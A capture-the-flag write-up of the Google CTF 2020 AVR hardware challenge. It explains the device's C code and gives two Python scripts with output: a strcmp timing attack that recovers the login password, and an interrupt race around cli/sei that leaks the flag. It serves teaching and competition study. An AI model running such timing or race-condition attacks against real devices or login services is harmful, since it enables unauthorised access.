






# Google CTF 2020 AVR writeup

## Part 1

This is a writeup for the hardware AVR challenge in Google CTF 2020.

The challenge is about breaking the security of a system running on Atmega328p chip.

**Note** for the second part of the challenge, jump for part 2. 

The challenge begins with the following message:




Downloading the attachments we get the following files:

1. `code.c` - The code of the device we want to hack. This is the file that interests us.
2. `simduino.elf`, `code.hex` - files needed for simulating the system locally on your pc.
3. `Makefile`, `simavr_diff` - files needed for downloading and compiling the simulator from the source.


Lets take a look at `code.c`

The code starts with some data initializing and definition. 

```c
#undef F_CPU
#define F_CPU 1000000UL

#include <avr/io.h>
#include <avr/sleep.h>
#include <avr/interrupt.h>
#include <util/delay.h>
#include <avr/cpufunc.h>
#include <stdio.h>
#include <string.h>

#define BAUD 125000UL
#include <util/setbaud.h>

#ifndef PASS1
#define PASS1 "PASSWORD_REDACTED_XYZ"
#endif

#ifndef PASS2
#define PASS2 "TOPSECRET_PASSWORD_ALSO_REDACTED_TOPSECRET"
#endif

#ifndef FLAG
#define FLAG "CTF{_REAL_FLAG_IS_ON_THE_SERVER_}"
#endif

const char* correctpass = PASS1;
const char* top_secret_password = PASS2;
const char* top_secret_data = 
	"INTELLIGENCE REPORT:\n"
	"FLAG CAPTURED FROM ENEMY.\n"
	"FLAG IS " FLAG ".";

char buf[512];
char secret[256] = 
	"Operation SIERRA TANGO ROMEO:\n"
	"Radio frequency: 13.37MHz\n"
	"Received message: ATTACK AT DAWN\n";
char timer_status[16] = "off";

volatile char logged_in;
int top_secret_index;

```

Next there are some functions defined to interact with the device's uart port. UART is basic IO method to interact with embedded devices. Read more at: https://en.wikipedia.org/wiki/Universal_asynchronous_receiver-transmitter

```c
volatile char uart_ready;
ISR(USART_RX_vect) {
	uart_ready = 1;
}

void uart_init(void) {
    UBRR0H = UBRRH_VALUE;
    UBRR0L = UBRRL_VALUE;

    UCSR0C = (1<<UCSZ01) | (1<<UCSZ00);
    UCSR0B = (1<<RXEN0) | (1<<TXEN0) | (1<<RXCIE0);
}

static int uart_getchar(FILE* stream) {
	while (1) {
		cli();
		if (!uart_ready) {
			sleep_enable();
			sei();
			sleep_cpu();
			sleep_disable();
		}
		cli();
		if (uart_ready) {
			uart_ready = 0;
			unsigned int c = UDR0;
			sei();
			return c;
		}
		sei();
	}
}

static int uart_putchar(char c, FILE* stream) {
	loop_until_bit_is_set(UCSR0A, UDRE0);
	UDR0 = c;
	return 0;
}
static FILE uart = FDEV_SETUP_STREAM(uart_putchar, uart_getchar, _FDEV_SETUP_RW);

```

Lest work from the bottom up.

The developers here wanted to make a simple way to use the UART in a similar way to `stdin` and `stdout` (as we soon will se in the `main` function). To do that, they define a `FILE` object named `uart`, and defined specific functions for reading and writing characters. 

The function `uart_puchar` is for outputting a character, and `uart_getchar` is for reading one.

I will talk about `cli` and `sei` functions at the end of this writeup.

`uart_init` is for initializing the UART port - defining speed, digits, and receive interrupt, which is defended by `ISR(USART_RX_vect) `. All the interrupt does is signaling that there is more input to get by setting the `uart_ready` variable to 1.


(For the sake of clarity, in this part I`m not showing the functions in the same order in the file)

```c
void quit() {
	printf("Quitting...\n");
	_delay_ms(100);
	cli();
	sleep_enable();
	sleep_cpu();
	while (1);
}
void read_data(char* buf) {
	scanf("%200s", buf);
}

void print_timer_status() {
	printf("Timer: %s.\n", timer_status);
}

```

The function `quit` is used, well, for getting a one million dollar prize!

Nahh not really. Its used to exiting the program. Really, promise.

`read_data` and `print_timer_status` are used to hunt little puppies in the forest.

```c
volatile uint32_t overflow_count;
uint32_t get_time() {
	uint32_t t;
	cli();
	t = (overflow_count << 16) + TCNT1;
	sei();
	return t;
}

void timer_on_off(char enable) {
	overflow_count = 0;
	strcpy(timer_status, enable ? "on" : "off");
	if (enable) {
		TCCR1B = (1<<CS10);
		sei();
	}
	else {
		TCCR1B = 0;
	}
}

ISR(TIMER1_OVF_vect) {
	if (!logged_in) {
		overflow_count++;
		// Allow ten seconds.
		if (overflow_count >= ((10*F_CPU)>>16)) {
			printf("Timed out logging in.\n");
			quit();
		}
	}
	else {
		// If logged in, timer is used to securely copy top secret data.
		secret[top_secret_index] = top_secret_data[top_secret_index];
		timer_on_off(top_secret_data[top_secret_index]);
		top_secret_index++;
	}
}

```


First, you need to understand how timers work on AVR, see these links:

https://exploreembedded.com/wiki/AVR_Timer_programming
http://maxembedded.com/2011/06/introduction-to-avr-timers/


`timer_on_off` function is used to start a timer. On Atmega chip, to start a timer we need to set the `TCC1B` register to value that will tell the system timer how fast to run.

`get_time` will measure the current time by checking the the  `overflow_count` which specifies how many timer overflows we had by now, essentially meaning how much time has passed since we started the timer. 

`ISR(TIMER1_OVF_vect)` is the timer interrupt handler - every time we hit timer overflow, this handler will be called.

If we are not logged in to the system (we will soon see how we do), then the `overflow_count` will increase, until it passed a certain limit (representing about 10 seconds), and will quit the program.

we will take about the `else ` clause later on.

lets stat with the `main` function. This is the first half.

```c
int main() {
	uart_init();
	stdout = &uart;
	stdin = &uart;

	TCCR1A = 0;
	TIMSK1 = (1<<TOIE1);

	printf("Initialized.\n");
	printf("Welcome to secret military database. Press ENTER to continue.\n");
	char enter = uart_getchar(0);
	if (enter != '\n') {
		quit();
	}

	timer_on_off(1);

	while (1) {
		print_timer_status();
		printf("Uptime: %ldus\n", get_time());
		printf("Login: ");
		read_data(buf);
		printf("Password: ");
		read_data(buf+256);
		if (strcmp(buf, "agent") == 0 && strcmp(buf+256, correctpass) == 0) {
			printf("Access granted.\n");
			break;
		}
		printf("Wrong user/password.\n");
	}
    cli();
	timer_on_off(0);
	sei();

	logged_in = 1;
```


The codes starts with initializing `stdin` and `stdout` to use UART.

Then the  `TCCR1A` and `TIMSK1` registers are set to enable the timer.

We are greeted with a message, and the timer starts.

As you can see, we need the right password in order to pass the loop and `logged_in = 1` and proceed to the next state. 

If we don't enter the right password for about 10 seconds, until `timer_on_off(0)` is run,  we will get a timeout and exit the program.

So what is the problem with this piece of code? 


The usage of `strcmp` - timing attack. Read about

[here]: https://en.wikipedia.org/wiki/Timing_attack#:~:text=In%20cryptography%2C%20a%20timing%20attack,taken%20to%20execute%20cryptographic%20algorithms.

. `strcmp` essentially works by iterating on both strings and compering them. Here is an implementation for example:

```c
int strcmp(const char* s1, const char* s2)
{
    while(*s1 && (*s1==*s2))
        s1++,s2++;
    return *(const unsigned char*)s1-*(const unsigned char*)s2;
}
```

 The security problem with this is , that if the second string doesn't equal the fist string at the first character, the function will exit almost immediately. If it doesn't fit in the next character, it will take one iteration until exit,  if not, the next - and so on. We can bruteforce the password character by character, which will take O(charset_len*password_len)  which is ALOT smaller then normal bruteforceing, which is O(charset_len^password_len)

So if you can measure how much time did it take for the function to end, you can tell how many good characters you have in your input string.

We can measure this thanks for a few reasons.

First, the developers are printing the current time on every loop iteration - and this time is measure locally on the processor, so you don't need to measure it your self, across time-unreliable global network. Time measurement here is very delicate, because the timing attack here relies on measuring a single `strcmp` iteration, which is just running a few extra machines opcodes:



As you can see, every `strcmp` iteration is made of  just a few machine codes. We will have to be very exact on our attack. 

The second reason (this is only my speculation, but I think its true) is that the developers are actually running the chip 10x times slower then normal speed. You can see in the `simavr_diff` file that they changed the emulator speed to `100000hz` instead of `16000000hz`. Slowing the processor down gives us a chance to do timing stuff.

The third - (also my speculation) is that the timer will not start until we give the program `'\n'` - this lets us a little control over when the timer starts, and that we can send `\nagent\npassword` to the program, and we know that the time measured by `get_time` doesn't rely on our  time latency global network. 

The fourth - we can try a few wrong passwords before time runs out. measuring  the `strcmp` extra time for a single iteration one time -  is impossible, due to the many other things effecting the time measurement (like reading from the UART). We will have to run the test on the same `character` we are testing many times, to see a real time difference.

So lets see some code!

**Note:** This solution doesn't work out of the box. we had to play with this a little, guess some letters, and change the `TIMES` variable. If you know how to make this better, let me know :)

```python
from pwn import *
import string
import time
import tqdm
import Queue 
import threading

charset = string.letters + string.digits + '!_?#@'
real_pw = "doNOTl4unch_missi1es!"
PRE = ''

# you'll need to play with this untill it works... I don't know the exact recipe...
TIMES = 560

def get_uptime(s):
    value = -1
    for line in s.split('\n'):
        try:
            if "Uptime" in line:
                value = int(line.split(' ')[1].replace('us', ''))
        except:
            print line
            raise Exception("timed out")
    return value

def get_letter_time(let, times, prefix = ''):
    context.log_level = 30
    conn = remote("avr.2020.ctfcompetition.com", 1337)
    creds = "agent\n" + prefix + let + "\n"
    conn.send('\n' + creds * times)
    arr = []
    out = conn.recvall()
    if "granted" in out:
        print "password is: " + prefix + let

    elif out.count("Login") < times+1:
        print "Timed out for " + prefix + let

    conn.close()
    return get_uptime(out)

def get_letter_avg(let, times, avg_size = 1, prefix = ''):
    avg_arr = []
    for i in range(avg_size):
        avg_arr.append(get_letter_time(let, times, prefix))

    return sum(avg_arr)/len(avg_arr)

def get_letter_avg_threading(let, times, q, avg_size = 1, prefix = ''):
    q.put((let, get_letter_avg(let, times, avg_size, prefix)))

def time_thread(seconds):
    print "time: " + str(seconds) + " seconds"
    for i in tqdm.tqdm(range(seconds)):
        time.sleep(1)

def get_next_letter(prefix, times):
    q = Queue.Queue()
    threads = []
    for c in charset:
        t = threading.Thread(target = get_letter_avg_threading, args = (c, times, q, 1, prefix))
        t.start()
        threads.append(t)

    t = threading.Thread(target = time_thread, args=(11,))
    t.start()
    threads.append(t)

    for t in threads:
        t.join()

    tbl = {}
    while not q.empty():
        c, time = q.get()
        tbl[c] = time

    sorted_tbl = sorted(tbl.items(), key = lambda x: x[1])
    print sorted_tbl
    return sorted_tbl[-1][0]

def timing_attack(pre = ''):
    cur = pre
    for i in range(3):
        times = TIMES + (5 * len(cur))
        print "current password: " + cur + " times = " + str(times)
        res = get_next_letter(cur, times)
        print "next char is: " + res
        cur += res

timing_attack(PRE)
```


TL;DR:

I'm testing every letter about 400-500 times , sending the same password with the testcase letter about 400-500 times, so the time difference will be noticeable.

In the end, the password is: `doNOTl4unch_missi1es!`

Example output:

```python
david@DAVID-PC:/mnt/d/work/ctfs/google-ctf-2020/AVR$ ipython sol.py
current password:  times = 560
time: 11 seconds
100%|███████████████████████████████████████████████████████████████████████████████████████████| 11/11 [00:11<00:00,  1.01s/it]
[('r', 9925501), ('#', 9926003), ('1', 9926003), ('0', 9926003), ('3', 9926003), ('?', 9926003), ('@', 9926003), ('F', 9926003), ('W', 9926003), ('p', 9926003), ('s', 9926003), ('_', 9926004), ('5', 9926006), ('8', 9926006), ('G', 9926006), ('!', 9926185), ('7', 9926185), ('9', 9926185), ('A', 9926185), ('C', 9926185), ('B', 9926185), ('H', 9926185), ('K', 9926185), ('J', 9926185), ('M', 9926185), ('N', 9926185), ('P', 9926185), ('S', 9926185), ('U', 9926185), ('T', 9926185), ('X', 9926185), ('a', 9926185), ('i', 9926185), ('j', 9926185), ('u', 9926185), ('t', 9926185), ('w', 9926185), ('y', 9926185), ('x', 9926185), ('2', 9926186), ('4', 9926186), ('6', 9926186), ('E', 9926186), ('D', 9926186), ('I', 9926186), ('O', 9926186), ('Q', 9926186), ('V', 9926186), ('Y', 9926186), ('Z', 9926186), ('c', 9926186), ('b', 9926186), ('e', 9926186), ('g', 9926186), ('f', 9926186), ('h', 9926186), ('k', 9926186), ('m', 9926186), ('o', 9926186), ('n', 9926186), ('q', 9926186), ('v', 9926186), ('z', 9926186), ('L', 9926187), ('R', 9926189), ('l', 9926189), ('d', 9928278)]
next char is: d
current password: d times = 550
time: 11 seconds
100%|███████████████████████████████████████████████████████████████████████████████████████████| 11/11 [00:11<00:00,  1.01s/it]
[('N', 9788168), ('m', 9788168), ('0', 9788171), ('W', 9788171), ('6', 9788172), ('G', 9788172), ('J', 9788172), ('Q', 9788172), ('X', 9788172), ('_', 9788172), ('a', 9788172), ('!', 9788350), ('4', 9788350), ('I', 9788350), ('H', 9788350), ('j', 9788350), ('l', 9788354), ('c', 9788535), ('#', 9789073), ('5', 9789073), ('7', 9789073), ('8', 9789073), ('A', 9789073), ('@', 9789073), ('C', 9789073), ('E', 9789073), ('D', 9789073), ('F', 9789073), ('K', 9789073), ('M', 9789073), ('L', 9789073), ('O', 9789073), ('P', 9789073), ('R', 9789073), ('U', 9789073), ('T', 9789073), ('V', 9789073), ('Y', 9789073), ('Z', 9789073), ('b', 9789073), ('d', 9789073), ('n', 9789073), ('q', 9789073), ('p', 9789073), ('t', 9789073), ('x', 9789073), ('1', 9789076), ('3', 9789076), ('2', 9789076), ('9', 9789076), ('?', 9789076), ('B', 9789076), ('S', 9789076), ('e', 9789076), ('g', 9789076), ('f', 9789076), ('i', 9789076), ('h', 9789076), ('k', 9789076), ('s', 9789076), ('r', 9789076), ('u', 9789076), ('w', 9789076), ('v', 9789076), ('y', 9789076), ('z', 9789076), ('o', 9789280)]
next char is: o
current password: do times = 540
time: 11 seconds
100%|███████████████████████████████████████████████████████████████████████████████████████████| 11/11 [00:11<00:00,  1.01s/it]
[('1', 9699002), ('0', 9699002), ('3', 9699002), ('4', 9699002), ('7', 9699002), ('9', 9699002), ('8', 9699002), ('A', 9699002), ('@', 9699002), ('L', 9699002), ('Q', 9699002), ('P', 9699002), ('R', 9699002), ('U', 9699002), ('T', 9699002), ('X', 9699002), ('Z', 9699002), ('i', 9699002), ('h', 9699002), ('m', 9699002), ('l', 9699002), ('q', 9699002), ('r', 9699002), ('v', 9699002), ('z', 9699002), ('_', 9699003), ('!', 9699005), ('#', 9699005), ('2', 9699005), ('6', 9699005), ('E', 9699005), ('D', 9699005), ('F', 9699005), ('H', 9699005), ('J', 9699005), ('M', 9699005), ('O', 9699005), ('W', 9699005), ('Y', 9699005), ('a', 9699005), ('e', 9699005), ('g', 9699005), ('f', 9699005), ('p', 9699005), ('s', 9699005), ('u', 9699005), ('w', 9699005), ('y', 9699005), ('x', 9699005), ('5', 9700553), ('?', 9700553), ('C', 9700553), ('G', 9700553), ('I', 9700553), ('K', 9700553), ('S', 9700553), ('c', 9700553), ('t', 9700553), ('V', 9700554), ('j', 9700554), ('d', 9700738), ('k', 9700738), ('o', 9700738), ('n', 9700738), ('B', 9700739), ('b', 9700739), ('N', 9701585)]
next char is: N
current password: doN times = 530
time: 11 seconds
100%|███████████████████████████████████████████████████████████████████████████████████████████| 11/11 [00:11<00:00,  1.00s/it]
[('I', 9606757), ('!', 9606759), ('#', 9606759), ('0', 9606759), ('3', 9606759), ('5', 9606759), ('4', 9606759), ('7', 9606759), ('6', 9606759), ('8', 9606759), ('?', 9606759), ('@', 9606759), ('F', 9606759), ('M', 9606759), ('Q', 9606759), ('P', 9606759), ('R', 9606759), ('U', 9606759), ('T', 9606759), ('W', 9606759), ('Y', 9606759), ('X', 9606759), ('Z', 9606759), ('_', 9606759), ('a', 9606759), ('c', 9606759), ('b', 9606759), ('e', 9606759), ('d', 9606759), ('g', 9606759), ('f', 9606759), ('i', 9606759), ('h', 9606759), ('k', 9606759), ('j', 9606759), ('m', 9606759), ('l', 9606759), ('o', 9606759), ('n', 9606759), ('p', 9606759), ('s', 9606759), ('r', 9606759), ('u', 9606759), ('t', 9606759), ('v', 9606759), ('y', 9606759), ('x', 9606759), ('z', 9606759), ('J', 9608119), ('L', 9608121), ('G', 9608208), ('A', 9608664), ('S', 9608664), ('w', 9608664), ('1', 9608855), ('E', 9608855), ('q', 9608855), ('2', 9609047), ('9', 9609047), ('C', 9609047), ('B', 9609047), ('D', 9609047), ('H', 9609047), ('K', 9609047), ('N', 9609047), ('V', 9609047), ('O', 9612660)]
next char is: O
current password: doNO times = 520
time: 11 seconds
100%|███████████████████████████████████████████████████████████████████████████████████████████| 11/11 [00:11<00:00,  1.00s/it]
[('I', 9524890), ('3', 9525010), ('2', 9525010), ('9', 9525010), ('E', 9525010), ('H', 9525010), ('Q', 9525010), ('S', 9525010), ('g', 9525010), ('h', 9525010), ('m', 9525010), ('s', 9525010), ('x', 9525010), ('#', 9525192), ('?', 9525192), ('j', 9525192), ('l', 9525192), ('z', 9525192), ('!', 9525194), ('O', 9525194), ('D', 9525318), ('r', 9525336), ('T', 9525424), ('v', 9525432), ('C', 9525502), ('R', 9525502), ('d', 9525502), ('t', 9525502), ('W', 9525872), ('0', 9526070), ('5', 9526070), ('4', 9526070), ('7', 9526070), ('@', 9526070), ('B', 9526070), ('M', 9526070), ('N', 9526070), ('U', 9526070), ('V', 9526070), ('_', 9526070), ('k', 9526070), ('p', 9526070), ('w', 9526070), ('y', 9526070), ('K', 9526074), ('A', 9526230), ('1', 9526612), ('6', 9526612), ('8', 9526612), ('G', 9526612), ('F', 9526612), ('J', 9526612), ('L', 9526612), ('P', 9526612), ('Y', 9526612), ('X', 9526612), ('Z', 9526612), ('a', 9526612), ('c', 9526612), ('b', 9526612), ('e', 9526612), ('f', 9526612), ('i', 9526612), ('o', 9526612), ('n', 9526612), ('q', 9526612), ('u', 9526612)]
```


## Part 2

In my opinion, this is really the hard part. Me and my team couldn't solve it, almost right to the end of the CTF!

This is the rest of the `main` function:

```c
cli();
	timer_on_off(0);
	sei();

	logged_in = 1;

	while (1) {
		print_timer_status();
		printf("Menu:\n");
		printf("1. Store secret data.\n");
		printf("2. Read secret data.\n");
		printf("3. Copy top secret data.\n");
		printf("4. Exit.\n");
		printf("Choice: ");
		read_data(buf);
		switch (buf[0]) {
			case '1':
			{
				printf("Secret: ");
				read_data(secret);
				break;
			}
			case '2':
			{
				printf("Stored secret:\n---\n%s\n---\n", secret);
				break;
			}
			case '3':
			{
				printf("Enter top secret data access code: ");
				read_data(buf);
				char pw_bad = 0;
				for (int i = 0; top_secret_password[i]; i++) {
					pw_bad |= top_secret_password[i]^buf[i];
				}
				if (pw_bad) {
					printf("Access denied.\n");
					break;
				}
				printf("Access granted.\nCopying top secret data...\n");
				timer_on_off(1);
				while (TCCR1B);
				printf("Done.\n");
				break;
			}
			case '4':
			{
				quit();
				break;
			}
			default:
			{
				printf("Invalid option.\n");
				break;
			}
		}
	}
	quit();
}
```


For us to get the flag, we need to get to case 3, enter the right password, and then go to case 2 to print it.

The flag is contained inside the `top_secret_data` variable.

calling `timer_on_off` when `logged_in=1` , will go the `else` clause. There, one character will be copied to from `top_secret_data` to `secret`, and then there is a call for `timer_on_off`. What happens here, is that the timer will be set again (because the parameter !=0), and the else clause will be called again, and then another character will  be copied from `top_secret_data` to `secret`, until we reach `NULL` in `top_secret_data`, then the timer will go off.

That means, that causing the timer interrupt once after we are logged in - will pass the flag from `top_secret_data` to `secret`. The only was to do that though, is threw case 3. Or isn't it the only way?

Notice this piece of code:

```c
	cli();
	timer_on_off(0);
	sei();

	logged_in = 1;
```

what if a time interrupt will happen somehow right after  `logged_in = 1`?

But how will it be possible? the `timer_on_off(0)` stops the timer. setting `TCCR1B=0` stops the interrupt counter (it set the timer prescaling to 0). The interrupt cannot go off after that.

Or not?

For this part, we will have to read the 

[datasheet]: http://ww1.microchip.com/downloads/en/DeviceDoc/Atmel-7810-Automotive-Microcontrollers-ATmega328P_Datasheet.pdf

of the chip.

Page 11:



As it says here, `cli` and `sei` are used to disable and enable interrutps.

That means, the the timeout interrupt cannot go off when we are trying to set if off.

But here is where things get intrestting.

Page 15:




That means that if some how, the interrupt happens after `cli` but before `TCCR1B` it will wait untill after `sei` to execute.

But that is still not good enough, we need the interrupt to happen **after** `logged_in = 1`.

And this is the crown jewel.

This is the disassembly if the `timer_on_off` section



Page 16:



**note:** I don't know how, but apparently on this challenge it will be **two** instructions after `sei`.

That means - that if the timer goes off after `cli` - it will go on two instruction **after** `sei` - and that will be enough for us - `logged_in = 1`!!!!!

Then the `else` clause will run - and the interrupt will keep itself up until the entire `top_secret_data` is copied!!!!

But how can we cause this crazy time thingy? and how do we detect when it happend?

And here is the last present from our sweet developers at GOOGLE - in the beginning of each menu iteration - the time status is printed. If we see `Timer: on` that means that we have succeeded - and the timeout timer went off after the `sei`!!!

And here is some code:

```python
#!/usr/bin/env python
from pwn import *
import random
import time
import tqdm


def rand_test():
    # randomly, we will wait the exact time to cause the interrupt
    sleep_time = random.uniform(0, 1)
    context.log_level = 30
    io = remote("avr.2020.ctfcompetition.com",1337)

    io.send("\n") # the timer starts after this

    time.sleep(sleep_time)
    io.send("agent\ndoNOTl4unch_missi1es!\n")

    io.send("2\n")

    data = io.readuntil("Access granted")
    data = io.readuntil("Menu:")
    if "on." in data:
        
        for i in range(40):
            time.sleep(2)
            io.send("2\n")
            io.interactive()
        exit()
    io.close()

while True:
    ts = []
    for i in tqdm.tqdm(range(500)):
        t = threading.Thread(target=rand_test)
        t.start()
        ts.append(t)
    for t in tqdm.tqdm(ts):
        t.join()

```

Example output:

```
david@DAVID-PC:/mnt/d/work/ctfs/google-ctf-2020/AVR$ ipython sol2.py
100%|███████████████████████████████████████████████████████████████████████████████| 500/500 [00:00<00:00, 1355.50it/s]
 27%|██████████████████████▏                                                          | 137/500 [00:06<01:00,  6.02it/s]
1. Store secret data.
2. Read secret data.
3. Copy top secret data.
4. Exit.
Choice: Stored secret:
---
INeration SIERRA TANGO ROMEO:
Radio frequency: 13.37MHz
Received message: ATTACK AT DAWN

---
Timer: on.
Menu:
1. Store secret data.
2. Read secret data.
3. Copy top secret data.
4. Exit.
Choice: Stored secret:
---
INTELLIGENCE REPORT:
FLAG CAPTURdio frequency: 13.37MHz
Received message: ATTACK AT DAWN

---
Timer: on.
Menu:
1. Store secret data.
2. Read secret data.
3. Copy top secret data.
4. Exit.
 27%|██████████████████████▏                                                          | 137/500 [00:19<01:00,  6.02it/s]
Stored secret:
---
INTELLIGENCE REPORT:
FLAG CAPTURED FROM ENEMY.
FLAG IS CTF{1nv1sibl3_sei_r4c3_c0ndi7i0n}.
---
Timer: off.
Menu:
1. Store secret data.
2. Read secret data.
3. Copy top secret data.
4. Exit.
Choice:
```


Hopped you liked this writeup!

If you have any suggestions/fixes, let me know!
